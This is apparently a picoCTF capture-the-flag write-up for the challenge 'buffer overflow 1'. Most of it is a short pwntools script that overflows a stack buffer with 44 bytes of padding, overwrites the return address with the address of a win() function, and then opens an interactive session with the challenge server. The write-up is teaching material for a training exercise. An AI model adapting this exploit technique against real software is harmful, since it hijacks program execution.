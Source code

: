 # buffer overflow 1
### Description
> Control the return address

### Solution
Causes an overflow and overwrites the return address with a `win()` address.

```
from pwn import *

#file = "./vuln"
host = "saturn.picoctf.net"
port = 57359
context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

io = remote(host, port)
#io = process(file)
pld = b"A"*44
pld += p32(0x080491f6) #win

io.sendlineafter("string:", pld)

io.interactive()
```

### Writer
[yu1hpa](https://twitter.com/yu1hpa)

